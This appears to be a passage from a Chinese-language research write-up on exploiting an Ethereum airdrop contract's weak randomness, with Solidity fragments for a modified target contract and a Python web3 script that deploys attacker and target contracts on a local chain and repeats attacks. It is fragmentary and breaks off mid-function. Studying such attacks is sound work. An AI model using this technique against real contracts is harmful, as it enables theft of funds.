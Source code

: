 ```
                _nonce[i] ++;

                return;
            }
        }
	}
......
}
```

由于这次的筛选要求非常苛刻，所以我们将proxy的数组扩大到1000， 增多备选的proxy; 然后我们修改了manager的`attack()`函数，让其优先寻找满足`fake_airdrop(count_next_address(proxy_address, proxy_nonce), 1))` 的proxy。

```
contract Airdrop{
......
    function can_i_jump() public payable {

        airDropTracker_ ++;
    	if (_airdrop()) {
    		jump_time ++;
    		emit record(msg.sender, jump_times, airDropTracker_);

            airDropTracker_ = 0;
    	} else {

    		emit record(msg.sender, jump_times, airDropTracker_);
    	}
    }
......
}
```

我们也略微修改了靶子的代码，将`is_jump` 改成`jump_time`来计算靶子一次交易中被攻击了几次，然后还增加了`airDropTracker_`自增和归零的逻辑，并将`airDropTracker_`加入了event记录起来。
由于这次的攻击偶然性很大，可能需要多次的试探，所以我们通过脚本实现自动的重复攻击，下面的是脚本主要的逻辑。

```
def main():
	print("mining...")
	args = get_arguments()
	w3 = connect_to_blockchain_through_ipc(args.ipc_path)
	w3.miner.start(10)
	print("Now, let's deploy attacker contract")
	attacker = deploy_contract_on_blockchain(w3, get_bytecode(args.attacker_contract_source_path, args.attacker_main_contract), args.from_address_seq, args.value, args.gas_limit)
	print("Now, let's deploy target contract")
	target = deploy_contract_on_blockchain(w3, get_bytecode(args.target_contract_source_path, args.target_main_contract), args.from_address_seq, args.value, args.gas_limit)
	initialization(w3, args.from_address_seq, attacker, args.gas_limit)
	tx_hash = attack(w3, args.from_address_seq, attacker, target, args.gas_limit)
	print("The final transaction hash is " +  tx_hash)
	w3.miner.stop()
	print("mining stop")
	
	
def attack(w3, from_address_seq, attacker, target, gas_limit):

	print("Now, let's attack the target\n ")

	attack_time = 1
	while get_jump_time(w3, from_address_seq, target) <= 1:
		print("Reset, let's start the number " + str(attack_time) + "th attack")
		txhash1 = reset(w3, from_address_seq, target)
		is_valid(w3, txhash1)
```